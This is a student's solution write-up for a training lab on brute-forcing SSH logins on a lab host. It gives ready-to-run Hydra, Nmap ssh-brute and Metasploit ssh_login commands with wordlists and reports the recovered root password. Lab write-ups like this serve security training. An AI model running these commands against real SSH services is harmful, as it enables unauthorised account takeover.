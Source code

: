```yaml
---
description: >-
  In this lab, you will learn to run a dictionary attack on SSH service using
  Hydra, Nmap script, and Metasploit.
---
```


# Lab - Bruteforce and Password cracking Live

## Lab Environment

In this lab environment, the user is going to get access to a Kali GUI instance. An SSH server can be accessed using the tools installed on Kali on http://demo.ine.local

**Objective:** Perform the following activities:

**1.** Find the password of user "student" using Hydra. Use password dictionary: /usr/share/wordlists/rockyou.txt.gz

**2.** Find the password of user "administrator" use appropriate Nmap script. Use password dictionary: /usr/share/nmap/nselib/data/passwords.lst

**3.** Find the password of user "root" using the ssh\_login Metasploit module. Use userpass dictionary: /usr/share/wordlists/metasploit/root\_userpass.txt

## Tools

The best tools for this lab are:

* Metasploit Framework
* Hydra
* Nmap

## My Solution

### Hydra

The rockyou.txt is originally compressed via gzip so you have to first decompress it with:

```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

The command I ran to find the password for student was:

```
hydra -l student -P /usr/share/wordlists/rockyou.txt demo.ine.local ssh -f
```

![](<../../../../.gitbook/assets/image (453).png>)

Here's confirmation that it works

![](<../../../../.gitbook/assets/image (127).png>)

[This](https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux) can help with using Hydra for ssh

### Nmap

We use the ssh-brute Nmap [script](https://nmap.org/nsedoc/scripts/ssh-brute.html) to find the password for user "administrator"

The script takes username and password list files so we have to create a file for the username

I ran the following to do this: `echo "administrator" > users.lst`

Here's the nmap command:

```
nmap -p22 --script=ssh-brute --script-args userdb=users.lst,passdb=/usr/share/nmap/nselib/data/passwords.lst demo.ine.local
```

Now we verify the credentials

![](<../../../../.gitbook/assets/image (384).png>)

### Metasploit

This [article](https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/) by Offensive Security is very straight forward and easy to follow

Launch Metasploit using `msfconsole`

Then type: `use auxiliary/scanner/ssh/ssh_login`

View options with "show options" and set the ones we need as such:

![](<../../../../.gitbook/assets/image (229).png>)

Now type run and enter

![](<../../../../.gitbook/assets/image (350).png>)

As you can see, the password for root is attack and we're given a session that we can interact with using `sessions -i <id number>` and verify that we are indeed root

